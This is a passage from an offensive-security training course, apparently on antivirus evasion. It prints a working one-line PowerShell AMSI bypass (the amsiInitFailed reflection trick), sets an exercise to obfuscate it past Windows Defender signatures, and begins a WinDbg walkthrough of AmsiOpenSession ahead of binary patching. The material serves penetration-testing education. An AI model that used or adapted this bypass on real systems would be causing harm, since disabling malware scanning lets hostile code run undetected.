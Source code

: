 Manipulating a result variable set by _AmsiInitialize_ can also lead to another AMSI bypass through the _amsiInitFailed_ field, a technique first discovered by Matt Graeber[1](https://portal.offsec.com/courses/pen-300-9502/learning/advanced-antivirus-evasion-14696/advanced-antivirus-evasion-15017#fn-local_id_315-1) in 2016.

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

> Listing 40 - AMSI bypass through amsiInitFailed field

The _amsiInitFailed_ field is verified by _AmsiOpenSession_ in the same manner as the _amsiContext_ header, which leads to an error.

The AMSI bypass in Listing 40 still works even though it was discovered in 2016, but the substrings 'AmsiUtils' and 'amsiInitFailed' have since been flagged as malicious.

We can reuse the dynamic discovery of types and fields from our _amsiContext_ AMSI bypass to evade the signatures and reuse this bypass.

Both AMSI bypasses rely on reflection, but as we'll discuss in the next section, we can also use the Win32 APIs to corrupt the AMSI functions themselves.

**Exercise**

1. Modify the original AMSI bypass shown in Listing 40 to bypass Windows Defender string signatures through dynamic filtering.

1

(Matt Graeber, 2016), [https://twitter.com/mattifestation/status/735261176745988096?lang=en](https://twitter.com/mattifestation/status/735261176745988096?lang=en) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/advanced-antivirus-evasion-14696/advanced-antivirus-evasion-15017#fnref-local_id_315-1)

### 10.4. Wrecking AMSI in PowerShell

In the last section, we used reflection to locate vital structures and variables that, when corrupted, will cause AMSI to be disabled. In this section, we'll modify the assembly instructions themselves instead of the data they are acting upon in a technique known as _binary patching_. We can use this technique to hotpatch the code and force it to fail even if the data structure is valid.

#### 10.4.1. Understanding the Assembly Flow

Before we modify any code, we must first understand how the original code operates. To do that, we'll dump the content of _AmsiOpenSession_ with WinDbg:

```
0:018> u amsi!AmsiOpenSession L1A
amsi!AmsiOpenSession:
00007fff`aa0824c0 4885d2          test    rdx,rdx
00007fff`aa0824c3 7446            je      amsi!AmsiOpenSession+0x4b (00007fff`aa08250b)
00007fff`aa0824c5 4885c9          test    rcx,rcx
00007fff`aa0824c8 7441            je      amsi!AmsiOpenSession+0x4b (00007fff`aa08250b)
00007fff`aa0824ca 8139414d5349    cmp     dword ptr [rcx],49534D41h
00007fff`aa0824d0 7539            jne     amsi!AmsiOpenSession+0x4b (00007fff`aa08250b)
00007fff`aa0824d2 4883790800      cmp     qword ptr [rcx+8],0
00007fff`aa0824d7 7432            je      amsi!AmsiOpenSession+0x4b (00007fff`aa08250b)
00007fff`aa0824d9 4883791000      cmp     qword ptr [rcx+10h],0
00007fff`aa0824de 742b            je      amsi!AmsiOpenSession+0x4b (00007fff`aa08250b)
00007fff`aa0824e0 41b801000000    mov     r8d,1
00007fff`aa0824e6 418bc0          mov     eax,r8d
00007fff`aa0824e9 f00fc14118      lock xadd dword ptr [rcx+18h],eax
00007fff`aa0824ee 4103c0          add     eax,r8d
00007fff`aa0824f1 4898            cdqe
00007fff`aa0824f3 488902          mov     qword ptr [rdx],rax
00007fff`aa0824f6 7510            jne     amsi!AmsiOpenSession+0x48 (00007fff`aa082508)
00007fff`aa0824f8 418bc0          mov     eax,r8d
00007fff`aa0824fb f00fc14118      lock xadd dword ptr [rcx+18h],eax
```